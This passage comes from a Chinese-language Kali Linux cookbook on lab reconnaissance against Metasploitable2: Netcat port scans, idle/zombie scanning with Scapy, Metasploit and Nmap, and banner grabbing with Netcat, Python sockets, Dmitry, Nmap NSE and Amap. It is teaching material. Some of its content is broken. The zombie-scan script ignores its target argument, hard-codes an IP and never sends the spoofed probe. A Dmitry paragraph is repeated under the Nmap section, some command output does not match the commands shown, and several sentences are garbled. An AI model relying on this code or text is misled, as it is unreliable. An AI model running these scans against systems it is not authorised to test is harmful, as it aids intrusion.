(UNKNOWN) [172.16.36.135] 24 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 25 (smtp) open
(UNKNOWN) [172.16.36.135] 26 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 27 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 28 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 29 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 30 (?) : Connection refused
```

一组连续的端口号可以通过循环传递，从而轻松、快速地扫描所有端口。然而，在提供的示例中，输出结果包含了开放端口和关闭端口的输出。这只有在扫描少量端口时是可以接受的。

但是，如果正在扫描大量端口，通过筛选所有关闭端口来寻找开放端口可能会很不方便。因此，我们可以直觉地尝试将输出通过管道传递并使用 grep 过滤出开放端口相关的行，如下：

```bash
root@KaliLinux:~# for x in $(seq 20 30); do nc -nvz 172.16.36.135 $x;
done | grep open
(UNKNOWN) [172.16.36.135] 20 (ftp-data) : Connection refused
(UNKNOWN) [172.16.36.135] 21 (ftp) open
(UNKNOWN) [172.16.36.135] 22 (ssh) open
(UNKNOWN) [172.16.36.135] 23 (telnet) open
(UNKNOWN) [172.16.36.135] 24 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 25 (smtp) open
(UNKNOWN) [172.16.36.135] 26 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 27 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 28 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 29 (?) : Connection refused
(UNKNOWN) [172.16.36.135] 30 (?) : Connection refused
```

然而，在尝试对输出进行管道处理并 grep 时，总输出仍然被返回。这是因为 Netcat 输出到 `STDERR` 而不是 `STDOUT`。要有效地从该工具的输出中 grep，必须使用 `2>&1` 将输出重定向到 `STDOUT`，如下：

```bash
root@KaliLinux:~# for x in $(seq 20 30); do nc -nvz 172.16.36.135 $x;
done 2>&1 | grep open
(UNKNOWN) [172.16.36.135] 21 (ftp) open
(UNKNOWN) [172.16.36.135] 22 (ssh) open
(UNKNOWN) [172.16.36.135] 23 (telnet) open
(UNKNOWN) [172.16.36.135] 25 (smtp) open
```

通过将输出传递到 `STDOUT` 然后从该输出中 grep，我们能够隔离出提供开放端口详细信息的输出行。我们可以变得更加简洁，只从这些行中提取我们需要的信息。如果扫描的是单个主机，我们可能只从第三和第四字段中受益：

```bash
root@KaliLinux:~# for x in $(seq 20 30); do nc -nvz 172.16.36.135 $x;
done 2>&1 | grep open | cut -d " " -f 3-4
21 (ftp)
22 (ssh)
23 (telnet)
25 (smtp)
```

要从输出中提取这些字段，可以使用 `cut` 函数按空格分隔符拆分行，然后指定输出的字段。然而，在 Netcat 中还有一种有效方法可以在不通过循环工具的情况下指定端口范围。

通过将 `nc` 以一系列连续的端口地址值进行传递，Netcat 将自动仅显示开放端口：

```bash
root@KaliLinux:~# nc 172.16.36.135 -nvz 20-30
(UNKNOWN) [172.16.36.135] 25 (smtp) open
(UNKNOWN) [172.16.36.135] 23 (telnet) open
(UNKNOWN) [172.16.36.135] 22 (ssh) open
(UNKNOWN) [172.16.36.135] 21 (ftp) open
```

同样，我们需要将它的输出传递到 `STDOUT`，以便将其传递给 `cut` 函数。通过显示第 2 到第 4 个字段，我们将输出限制为 IP 地址、端口地址和关联服务，如下：

```bash
root@KaliLinux:~# nc 172.16.36.135 -nvz 20-30
21 (ftp)
22 (ssh)
23 (telnet)
25 (smtp)
```


所有 IP 数据包中都存在一个值：ID 号。根据系统的不同，此 ID 号可能是随机生成的、可能始终置零，或者在每次发送 IP 数据包时递增 1。如果发现一个具有增量 IPID 序列的主机，且该主机未与其他网络系统交互，则可以作为识别其他系统上开放端口的手段。我们可以通过发送一系列 IP 包并分析响应来识别远程系统的 IPID 序列模式：

```python
>>> reply1 = sr1(IP(dst="172.16.36.134")/TCP(flags="SA"),timeout=2,verbose=0)
>>> reply2 = sr1(IP(dst="172.16.36.134")/TCP(flags="SA"),timeout=2,verbose=0)
>>> reply1.display()
```

199

*端口扫描*

### [ IP ]

version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 61
flags=
frag= 0L
ttl= 128
proto= tcp
chksum= 0x9938
src= 172.16.36.134
dst= 172.16.36.180
options=

### [ TCP ]

sport= http
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe22
urgptr= 0
options= {}

### [ Padding ]

load= '\x00\x00\x00\x00\x00\x00'

```python
>>> reply2.display()
```

### [ IP ]

version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 62
flags=

200

*第 3 章*

frag= 0L
ttl= 128
proto= tcp
chksum= 0x992d
src= 172.16.36.134
dst= 172.16.36.180
options=

### [ TCP ]

sport= http
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe22
urgptr= 0
options= {}

### [ Padding ]

load= '\x00\x00\x00\x00\x00\x00'

如果我们向一个空闲的 Windows 系统发送两个 IP 包，可以检查响应中 IP 层下 ID 属性的整数值。注意，第一个请求的响应 ID 为 61，而第二个请求的响应 ID 为 62。该主机确实具有增量 IPID 序列，假设假设它保持空闲，则可以作为僵尸扫描（zombie scanning）的有效僵尸。要执行僵尸扫描，必须先向僵尸系统发送一个初始 SYN+ACK 请求，以确定返回的 RST 包中的当前 IPID 值。然后，向扫描目标发送一个伪造的 SYN 包，源 IP 地址为僵尸系统。如果端口开放，扫描目标将向僵尸发送一个 SYN+ACK 响应。由于僵尸实际上并没有发送初始 SYN 请求，它会将 SYN+ACK 请求解释为未经请求的连接并向目标发送 RST 包，从而使其 IPID 递增 1。最后，应向僵尸发送另一个 SYN+ACK 包，它将返回一个 RST 包并再次使 IPID 增加。如果 IPID 比初始响应增加了 2，说明所有这些事件已发生，且扫描系统上的目标端口是开放的。

201

*端口扫描*

相反，如果扫描目标上的端口是关闭的，将发生另一系列事件，这将导致最终的 RST 响应仅增加了 1。如果扫描目标上的目标端口关闭，则会对初始伪造的 SYN 包向僵尸系统发送一个 RST 包。由于 RST 包不需要任何响应，僵尸系统的 IPID 值不会增加。因此，响应 SYN+ACK 包时返回给扫描系统的最终 RST 包仅增加了 1。

为了简化这一过程，可以使用 Python 编写以下脚本，该脚本既能识别可用的僵尸系统，又能对扫描目标执行僵尸扫描：

```python
#!/usr/bin/python

import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *

def ipid(zombie):
    reply1 = sr1(IP(dst="172.16.36.134")/TCP(flags="SA"),timeout=2,verbose=0)
    reply2 = sr1(IP(dst="172.16.36.134")/TCP(flags="SA"),timeout=2,verbose=0)
    if reply2.id == reply1.id + 2:
        return True
    return False

def zombiescan(target, zombie):
    print(f"Scanning {target} with zombie {zombie}")
    print("Open Ports on Target--------")
    for port in range(1, 1024):
        try:
            start_val = sr1(IP(dst=zombie)/TCP(flags="SA", dport=port), timeout=2, verbose=0)
            if start_val:
                end_val = sr1(IP(dst=zombie)/TCP(flags="ACK", dport=port), timeout=2, verbose=0)
                if end_val and end_val.id == start_val.id + 1:
                    print(port)
        except:
            pass

if __name__ == "__main__":
    zombie = input("Enter zombie IP: ")
    if ipid(zombie):
        print("Zombie is incremental and idle.")
        target = input("Enter target IP: ")
        zombiescan(target, zombie)
    else:
        print("Zombie is not incremental or not idle.")
```


要在本地实验室环境中启动系统，请参考`第 1 章` `Getting Started` 中的 `Installing Metasploitable2` 和 `Installing Windows Server` 菜方。此外，本节将要求使用文本编辑器（如 `VIM` 或 `Nano`）将脚本写入文件系统。有关如何编写脚本的更多信息，请参考`第 1 章` `Getting Started` 中的 `Using text editors (VIM and Nano)` 菜方。

### 如何操作……

也可以通过 `Nmap` 的一个选项来执行僵尸扫描。然而，在使用 `Nmap` 僵尸扫描之前，我们可以通过扫描整个地址范围并使用 `Metasploit` 评估 IPID 序列模式，快速找到任何可用的僵尸候选主机。要执行此操作，我们需要使用 `msfconsole` 命令打开 `Metasploit`，然后按照如下方式选择 IPID 序列辅助模块：

```
root@KaliLinux:~# msfconsole

+-------------------------------------------------------+
| METASPLOIT by Rapid7 |
+---------------------------+---------------------------+
204
*第 3 章*
| __________________ | |
| ==c(______(o(______(_() | |""""""""""""|======[*** |
| )=\ | | EXPLOIT \ |
| // \\ | |_____________\_______ |
| // \\ | |==[msf >]============\ |
| // \\ | |______________________\ |
| // RECON \\ | \(@)(@)(@)(@)(@)(@)(@)/ |
| // \\ | ********************* |
+---------------------------+---------------------------+
| o O o | \'\/\/\/'/ |
| o O | )======( |
| o | .' LOOT '. |
| |^^^^^^^^^^^^^^|l___ | / _||__ \ |
| | PAYLOAD |""\___, | / (_||_ \ |
| |________________|__|)__| | | __||_) | |
| |(@)(@)"""|(@)(@)**|(@) | " || " |
| = = = = = = = = = = = = | '--------------' |
+---------------------------+---------------------------+
使用 `notepad` 跟踪渗透测试？让 Metasploit Pro 报告主机、服务、会话和证据——输入 'go_pro' 立即启动。
=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops
msf > use auxiliary/scanner/ip/ipidseq
msf auxiliary(ipidseq) > show options
Module options (auxiliary/scanner/ip/ipidseq):
Name Current Setting Required Description
---- --------------- -------- -----------
INTERFACE no 接口名称
RHOSTS yes 目标地址范围或 CIDR 标识符
RPORT 80 yes 目标端口
205
*端口扫描*
SNAPLEN 65535 yes 要捕获的字节数
THREADS 1 yes 并发线程数
TIMEOUT 500 yes 响应读取超时（单位：毫秒）
```

该辅助模块可用于对连续的主机地址或由 `CIDR` 表示法定义的网络范围进行扫描。为了提高扫描速度，应将 `THREADS` 变量增加到所需的并发任务数量，如下：

```
msf auxiliary(ipidseq) > set RHOSTS 172.16.36.0/24
RHOSTS => 172.16.36.0/24
msf auxiliary(ipidseq) > set THREADS 25
THREADS => 25
msf auxiliary(ipidseq) > show options
Module options (auxiliary/scanner/ip/ipidseq):
Name Current Setting Required Description
---- --------------- -------- -----------
INTERFACE no 接口名称
RHOSTS 172.16.36.0/24 yes 目标地址范围或 CIDR 标识符
RPORT 80 yes 目标端口
SNAPLEN 65535 yes 要捕获的字节数
THREADS 25 yes 并发线程数
TIMEOUT 500 yes 响应读取超时（单位：毫秒）
```

一旦填充了所需变量的期望值，我们就可以使用 `show options` 命令再次验证扫描配置。然后可以使用 `run` 命令执行 IPID 序列扫描：

```
msf auxiliary(ipidseq) > run
[*] 172.16.36.1's IPID sequence class: Randomized
[*] 172.16.36.2's IPID sequence class: Incremental!
[*] Scanned 026 of 256 hosts (010% complete)
[*] Scanned 052 of 256 hosts (020% complete)
[*] Scanned 077 of 256 hosts (030% complete)
206
*第 3 章*
[*] Scanned 103 of 256 hosts (040% complete)
[*] Scanned 128 of 256 hosts (050% complete)
[*] 172.16.36.134's IPID sequence class: Incremental!
[*] 172.16.36.135's IPID sequence class: All zeros
[*] Scanned 154 of 256 hosts (060% complete)
[*] Scanned 180 of 256 hosts (070% complete)
[*] Scanned 205 of 256 hosts (080% complete)
[*] Scanned 231 of 256 hosts (090% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

当 IPID 序列扫描模块遍历提供的网络范围时，它将识别发现主机的 IPID 序列模式，并指示它们是全零、随机还是增量。僵尸扫描的理想候选主机是既具有增量 IPID 序列又与网络上其他系统没有频繁交互的主机。

一旦识别出增量型空闲主机，我们可以使用 `Nmap` 中的 `-sI` 选项执行僵尸扫描，并传递需要用于扫描的僵尸主机 IP 地址：

```
root@KaliLinux:~# nmap 172.16.36.135 -sI 172.16.36.134 -Pn -p 0-100
Starting Nmap 6.25 ( http://nmap.org ) at 2014-01-26 14:05 CST
Idle scan using zombie 172.16.36.134 (172.16.36.134:80); Class:
Incremental
Nmap scan report for 172.16.36.135
Host is up (0.045s latency).
Not shown: 95 closed|filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds
```

207
*端口扫描*

在提供的示例中，对扫描目标 `172.16.36.135` 的前 100 个 TCP 端口执行了僵尸扫描。`172.16.36.134` 的空闲主机被用作僵尸，并使用 `-Pn` 选项防止 `Nmap` 尝试 ping 目标。在此演示中，我们识别并枚举了所有列出的端口，而从未与扫描目标直接交互。

### 工作原理……

僵尸扫描的底层原理与上一个菜方中使用 `Scapy` 执行相同任务时的讨论相同。然而，使用 `Nmap` 僵尸模式允许我们使用集成著名的工具来执行相同的任务。

208
4
指纹识别

在识别目标范围内的活动系统并枚举这些系统的开放端口后，开始收集它们以及与开放端口的服务是非常是非常。在本章中，我们将讨论使用 Kali Linux 对系统和服务进行指纹识别的不同技术。这些技术将包括 Banner 获取、服务探测识别、操作系统识别、SNMP 信息收集和防火墙识别。本章具体的菜方包括：

- 使用 `Netcat` 获取 Banner
- 使用 `Python` 套接字获取 Banner
- 使用 `Dmitry` 获取 Banner
- 使用 `Nmap` NSE 获取 Banner
- 使用 `Amap` 获取 Banner
- 使用 `Nmap` 进行服务识别
- 使用 `Amap` 进行服务识别
- 使用 `Scapy` 进行操作系统识别
- 使用 `Nmap` 进行操作系统识别
- 使用 `xProbe2` 进行操作系统识别
- 使用 `p0f` 进行被动操作系统识别
- 使用 `Onesixtyone` 进行 SNMP 分析
- 使用 `SNMPwalk` 进行 SNMP 分析
- 使用 `Scapy` 进行防火墙识别
- 使用 `Nmap` 进行防火墙识别
- 使用 `Metasploit` 进行防火墙识别


在处理上述提到的特定配方之前，我们应该首先讨论在本章剩余部分将涉及的一些底层原理。本章中的每个配方都将介绍用于执行某些特定任务的工具。

这些任务包括横幅获取（banner grabbing）、服务识别、操作系统识别、SNMP 分析和防火墙识别。这些任务服务于一个共同目标，即尽可能地收集有关目标系统的信息，以便快速高效地攻击该系统。

在投入大量时间和资源尝试识别远程服务之前，我们应该首先确定该远程服务是否会向我们标识自身。服务横幅（Service banners）是由在与远程服务建立连接时立即返回的输出文本。在历史上，网络服务在服务横幅中披露制造商、软件名称、服务类型甚至版本号是一种非常常见的做法。幸运的是，对于渗透测试人员来说，这些信息在识别软件已知的缺陷、缺陷和漏洞方面极其有用。只需连接到远程终端服务即可轻松读取横幅。然而，为了使其成为一个有效的信息收集工具，它应该是自动化的，这样我们无需手动连接到远程主机上的每一个单独服务。本章横幅获取配方中涉及的工具将完成自动化获取横幅的任务，以识别尽可能多的开放服务。

如果远程服务不自愿披露其上运行的软件和/或版本，我们只需要付出更大的努力来识别该服务。通常可以识别独特的行为或获取独特的响应，这些响应可以用于确定某项服务。由于响应或行为的细微差异，通常甚至可以识别特定服务的版本。然而，对于任何人类来说，记住所有这些独特特征都是困难的。幸运的是，已经创建了许多工具，可以向远程服务发送大量探测，用以分析这些目标服务的响应和行为。同样，响应变异也可以用于识别运行在远程服务器或工作站上的底层操作系统。这些工具将在涉及服务识别和操作系统识别的配方中讨论。

简单网络管理协议（`SNMP`）是一种设计为各种类型网络设备提供远程管理服务的协议。使用 `SNMP` 进行管理时使用团体字符串（community strings）进行身份验证。设备部署默认团体字符串的情况非常常见。当这种情况发生时，攻击者通常可以远程地收集有关目标设备配置的大量信息，在某些情况下甚至可以重新配置设备。利用 `SNMP` 进行信息收集的技术将在涉及 `SNMP` 分析的配方中讨论。

在收集有关潜在目标的信息时，了解任何可能影响侦察或攻击成功的障碍也同样重要。防火墙是网络设备或软件，选择性地限制流向或离开特定目的地的网络流量。防火墙通常被配置为防止访问特定服务。对防火墙的感知（其正在修改你的攻击系统与目标地之间的流量）对于尝试识别规避或绕过其过滤器的方法至关重要。识别防火墙设备服务的服务的将在涉及防火墙识别的配方中讨论。

## 使用 Netcat 获取横幅

`Netcat` 是一种多功能网络工具，可以配合 Kali Linux 执行多种信息收集和扫描任务。本特定配方将演示如何使用 `Netcat` 获取服务横幅，以便识别与目标系统开放端口相关的服务。

### 准备工作

要使用 `Netcat` 获取服务横幅，你需要一个运行网络服务的远程系统，该系统在客户端设备连接到它时会披露信息。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关设置 `Metasploitable2` 的更多信息，请参考`第 1 章` `Getting Started` 中的 `Installing Metasploitable2` 配方。

### 如何操作……

要使用 `Netcat` 获取服务横幅，必须在远程系统上的目标端口上建立 socket 连接。为了快速理解 `Netcat` 的用法以及它如何用于此目的，可以调用其用法输出。这可以通过 `-h` 选项来实现：

```
root@KaliLinux:~# nc -h
```

```
[v1.10-40]
connect to somewhere: nc [-options] hostname port[s] [ports] ...
listen for inbound: nc -l -p port [-options] [hostname] [port]

options:
-c shell commands as `-e`; 使用 /bin/sh 执行 [危险!!]
-e filename program 在连接后执行程序 [危险!!]
-b 允许广播
-g gateway 源路由跳跃点[s], 最多 8 个
-G num 源路由指针: 4, 8, 12, ...
-h 此处杂项信息
-i secs 发送的行、扫描端口的秒延迟间隔
-k 在 socket 上设置保持活动选项
-l 监听模式，用于入站连接
-n 仅限数字 IP 地址，不进行 DNS
-o 流量的十六进制转储
-p port 本地端口号
-r 随机本地和远程端口
-q secs 在 stdin 的 EOF 后退出并延迟 secs 秒
-s addr 本地源地址
-T tos 设置服务类型
-t 回答 TELNET 协商
-u UDP 模式
-v 详细信息 [使用两次以获得更多详细信息]
-w secs 连接和最终的秒超时时间
-z 零 I/O 模式 [用于扫描]
```

通过查看该工具提供的各种选项，我们可以确定通过指定选项、IP 地址，然后端口号来建立到目标端口的连接：

```
root@KaliLinux:~# nc -vn 172.16.36.135 22
```

```
(UNKNOWN) [172.16.36.135] 22 (ssh) open
SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
```

在提供的示例中，已建立到 `Metasploitable2` 系统的端口 22 的连接。使用了 `-v` 选项提供详细输出，使用了 `-n` 选项在不通过 DNS 的情况下连接 IP 地址。在这里，我们可以看到远程主机返回的横幅标识服务为 SSH，供应商为 OpenSSH，甚至精确版本为 4.7。`Netcat` 保持连接打开，因此在读取横幅后，你可以用 `Ctrl` + `C` 强制关闭连接：

```
root@KaliLinux:~# nc -vn 172.16.36.135 21
```

```
(UNKNOWN) [172.16.36.135] 21 (ftp) open
220 (vsFTPd 2.3.4)
```

对同一系统的端口 21 执行类似的扫描，我们可以轻松获取运行的 FTP 服务及其版本信息。在这些情况下，都泄露了许多有用信息。系统上运行的服务和版本通常是漏洞的关键指标，可用于利用和攻破系统。

### 工作原理……

`Netcat` 能够获取这些服务的横幅，是因为这些服务被配置为当客户端服务连接到它们时自动披露这些信息。


确保客户端正在连接到预期的目标。随着开发者对安全意识的增强，这种做法正变得越来越常见。尽管如此，遇到开发水平较低或旧的遗留服务并不罕见，它们会以服务 banner 的形式提供过多的信息。

## 使用 Python sockets 获取 Banner

Python 中的 `socket` 模块可用于连接运行在远程端口上的网络服务。本特定配方将演示如何使用 Python sockets 获取服务 banner（服务标识），以便识别与目标系统上开放端口相关的服务。

### 准备工作

要使用 Python 收集服务 banner，你需要一个运行网络服务的远程系统，该系统在客户端设备连接其时会披露信息。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关设置 `Metasploitable2` 的更多信息，请参阅`第 1 章` `入门` 中的`安装 Metasploitable2` 配方。此外，此配方还需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统编写一个脚本。有关编写脚本的更多信息，请参考`第 1 章` `入门` 中的`使用文本编辑器 (VIM and Nano)` 配方。

### 如何操作……

可以使用 Python 交互式解释器直接与远程网络服务交互。你可以通过直接调用它开始使用 Python 解释器。在这里，你可以导入任何想要使用的特定模块。在这种情况下，我们将导入 `socket` 模块：

```python
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import socket
>>> bangrab = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> bangrab.connect(("172.16.36.135", 21))

# Fingerprinting
>>> bangrab.recv(4096)
'220 (vsFTPd 2.3.4)\r\n'
>>> bangrab.close()
>>> exit()
```

在提供的示例中，创建了一个名为 `bangrab` 的新 socket。`AF_INET` 参数用于指示 socket 将采用 IPv4 地址，`SOCK_STREAM` 参数用于指示将使用 TCP 传输。一旦创建了 socket，可以使用 `connect` 函数初始化连接。在示例中，`bangrab` socket 连接到位于 `172.16.36.135` 的远程主机 `Metasploitable2` 的 21 端口。连接后，可以使用 `recv` 函数从 socket 连接的服务接收内容。假设有可用信息，它将作为输出打印。在这里，我们可以看到运行在 `Metasploitable2` 服务器上的 FTP 服务提供的 banner。最后，可以使用 `close` 函数优雅地结束与远程服务的连接。如果我们尝试连接到一个不接受连接的服务，Python 解释器将返回一个错误：

```python
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import socket
>>> bangrab = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> bangrab.connect(("172.16.36.135", 443))
Traceback (most recent call last):
File "<stdin>", line 1, in <module>
File "/usr/lib/python2.7/socket.py", line 224, in meth
return getattr(self._sock,name)(*args)
socket.error: [Errno 111] Connection refused
>>> exit()
```

如果尝试连接 `Metasploitable2` 系统上的 TCP 端口 443，将返回一个指示连接被拒绝的错误。这是因为该远程端口上没有运行服务。然而，即使目标端口上运行了服务，也不意味着一定有可服务的 banner。通过与 `Metasploitable2` 系统上的 TCP 端口 80 连接可以看到这一点：

```python
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
# Chapter 4
>>> import socket
>>> bangrab = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> bangrab.connect(("172.16.36.135", 80))
>>> bangrab.recv(4096)
```

运行在该系统端口 80 上的服务正在接受连接，但不会向连接的客户端提供服务 banner。如果使用了 `recv` 函数但没有可接收的数据，该函数将保持挂起状态。为了在 Python 中自动化收集 banner 的实践，我们可以使用以下脚本：

```python
#!/usr/bin/python
import socket
import select
import sys

if len(sys.argv) != 4:
    print("Usage - ./banner_grab.py [Target-IP] [First Port] [Last Port]")
    print("Example - ./banner_grab.py 10.0.5 1 100")
    sys.exit()

ip = sys.argv[1]
start = int(sys.argv[2])
end = int(sys.argv[3])

for port in range(start,end):
    try:
        bangrab = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        bangrab.connect((ip, port))
        ready = select.select([bangrab],[],[],1)
        if ready[0]:
            print("TCP Port " + str(port) + " - " + bangrab.recv(4096))
        bangrab.close()
    except:
        pass
```

要执行该脚本，请修改文件权限并直接调用：

```bash
root@KaliLinux:~# chmod 777 banner_grab.py
root@KaliLinux:~# ./banner_grab.py 172.16.36.135 1 65535
```

输出将如下：

```text
TCP Port 21 - 220 (vsFTPd 2.3.4)
TCP Port 22 - SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
TCP Port 23 - ??????#'
TCP Port 25 - 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
TCP Port 512 - Where are you?
TCP Port 514 - 
TCP Port 1524 - root@metasploitable:/#
```


5.0.51a-3ubuntu5?bo,(${c\,#934JYb⁴'fM**

### TCP 端口 5900 - RFB 003.003

### TCP 端口 6667 - :irc.Metasploitable.LAN NOTICE AUTH :*** 正在查找您的主机名...

:irc.Metasploitable.LAN NOTICE AUTH :*** 无法解析您的主机名；改用您的 IP 地址

### TCP 端口 6697 - :irc.Metasploitable.LAN NOTICE AUTH :*** 正在查找您的主机名...

### 工作原理……

本配方介绍的 Python 脚本通过利用 `socket` 库来工作。该脚本遍历每个指定的特定端口地址，并尝试与特定端口初始化 TCP 连接。如果建立了连接并从目标服务接收到横幅（banner），则该横幅将打印在脚本的输出中。如果无法与远程端口建立连接，脚本将移动到循环中的下一个端口地址。同样，如果建立了连接但没有返回横幅，则将关闭连接并让脚本继续循环到下一个值。

#### 使用 Dmitry 获取横幅

Dmitry 是一个简单且精简的工具，用于连接运行在远程端口上的网络服务。本特定配方将演示如何使用 Dmitry 扫描来获取服务横幅，以识别目标系统上开放端口相关的服务。

### 准备工作

要使用 Dmitry 服务横幅，您需要一个运行网络服务的远程系统，该服务在客户端设备连接时会泄露信息。在提供的示例中，使用了一个 Metasploitable2 实例来执行此任务。有关设置 Metasploitable2 的更多信息，请参阅*第 1 章*、*入门*中的*安装 Metasploitable2*配方。

#### 指纹识别

### 如何操作……

正如本书之前的端口扫描配方中所讨论的那样，Dmitry 可对 150 个最常用的服务运行快速 TCP 端口扫描。这可以使用 `-p` 选项完成：

```bash
root@KaliLinux:~# dmitry -p 172.16.36.135
```

Deepmagic 信息收集工具
"正在发生一些深奥魔法"
ERROR: 无法定位 172.16.36.135 的主机名
正在带有限制模块继续
HostIP:172.16.36.135
HostName:
已收集 172.16.36.135 的 TCP 端口信息
---------------------------------
Port State
21/tcp open
22/tcp open
23/tcp open
25/tcp open
53/tcp open
80/tcp open
111/tcp open
139/tcp open
端口扫描完成：已扫描 150 个端口，141 个端口处于关闭状态

为了使用 Dmitry 执行横幅获取，需要此端口扫描选项。也可以在尝试连接这 150 个端口中的每一个时，让 Dmitry 获取任何可用的横幅。这可以使用 `-b` 选项结合 `-p` 选项来实现：

```bash
root@KaliLinux:~# dmitry -pb 172.16.36.135
```

Deepmagic 信息收集工具
"正在发生一些深奥魔法"
ERROR: 无法定位 172.16.36.135 的主机名
正在带有限制模块继续
HostIP:172.16.36.135
HostName:
已收集 172.16.36.135 的 TCP 端口信息
---------------------------------
Port State
21/tcp open
>> 220 (vsFTPd 2.3.4)
22/tcp open
>> SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
23/tcp open
>> ???? ??#??'
25/tcp open
>> 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
53/tcp open
80/tcp open
111/tcp open
139/tcp open
端口扫描完成：已扫描 150 个端口，141 个端口处于关闭状态

### 工作原理……

Dmitry 是一个非常简单的命令行工具，可以以极小的开销执行横幅获取任务。Dmitry 无需指定尝试获取横幅的端口，它可以通过仅对一小部分预定义且常用的端口尝试获取横幅来简化流程。从运行在这些端口地址上的服务接收到的横幅将在脚本的终端输出中返回。

指纹识别

#### 使用 Nmap NSE 获取横幅

Nmap 有一个集成的 Nmap 脚本引擎（NSE）脚本，可从运行在远程端口的网络服务读取横幅。本特定配方将演示如何使用 Nmap NSE 获取服务横幅，以识别目标系统上开放端口相关的服务。

### 准备工作

要使用 Nmap NSE 服务横幅，您需要一个运行网络服务的远程系统，该服务在客户端设备连接时会泄露信息。在提供的示例中，使用了一个 Metasploitable2 实例来执行此任务。有关设置 Metasploitable2 的更多信息，请参阅*第 1 章*、*入门*中的*安装 Metasploitable2*配方。

### 如何操作……

可以使用 Nmap 中的 `--script` 选项调用 Nmap NSE 脚本，然后指定所需的脚本名称。对于此特定脚本，应使用 `-sT full-connect` 扫描，因为只有在建立完全 TCP 连接时才能收集服务横幅。脚本将应用于与 Nmap 请求扫描的相同的端口：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 22 --script=banner
```

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-19 04:56 EST
Nmap scan for 172.16.36.135
Host is up (0.0003s latency).
PORT STATE SERVICE
22/tcp open ssh-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
Nmap scan complete: 识别了 1 个 目标 (1 个主机在线)
耗时 0.07 秒

为了使用 Dmitry 执行横幅获取，需要此端口扫描选项。也可以在尝试连接这 150 个端口中的每一个时，让 Dmitry 获取任何可用的横幅。这可以使用 `-b` 选项结合 `-p` 选项来实现：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 1-100 --script=banner
```


关于设置 Metasploitable2 的信息，请参阅 `Chapter 1`、`Getting Started` 中的 `Installing Metasploitable2` 配方。

## 指纹识别 (Fingerprinting)

### 如何操作……
`amap` 中的 `-B` 选项可用于以扫描模式（banner mode）运行应用程序。这将为指定的 IP 地址和（端口（s）收集 banner。`amap` 可以通过指定远程 IP 地址和服务端口号来收集单个服务的 banner：

```
root@KaliLinux:~# amap -B 172.16.36.135 21
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:04:58 -
BANNER mode
Banner on 172.16.36.135:21/tcp : 220 (vsFTPd 2.3.4)\r\n
amap v5.4 finished at 2013-12-19 05:04:58
```

在提供的示例中，Amap 已经从 172.16.36.135 上 Metasploitable2 系统的 21 端口获取了服务 banner。此命令也可以修改为扫描连续的端口范围。要扫描所有可能的 TCP 端口，必须扫描所有可能的端口地址值。TCP 头中定义源端口和目的端口地址的部分长度均为 16 位，每个位可以保留 1 或 0 的值。因此，有 $2^{16}$ 或 65,536 种可能的 TCP 端口地址。要扫描总可能的地址空间，必须提供 1 到 65535 的端口范围：

```
root@KaliLinux:~# amap -B 172.16.36.135 1-65535
amap v5.4 (www.thc.org/thc-amap) started at 2014-01-24 15:54:28 -
BANNER mode
Banner on 172.16.36.135:22/tcp : SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1\n
Banner on 172.16.36.135:21/tcp : 220 (vsFTPd 2.3.4)\r\n
Banner on 172.16.36.135:25/tcp : 220 metasploitable.localdomain ESMTPTP Postfix (Ubuntu)\r\n
Banner on 172.16.36.135:23/tcp : #'
Banner on 172.16.36.135:512/tcp : Where are you?\n
Banner on 172.16.36.135:1524/tcp : root@metasploitable/#
Banner on 172.16.36.135:2121/tcp : 220 ProFTPD 1.3.1 Server (Debian) [ffff172.16.36.135]\r\n
Banner on 172.16.36.135:3306/tcp : >\n5.0.51a-3ubuntu5dJ$t?xdj,fCYxm=)Q=~$5
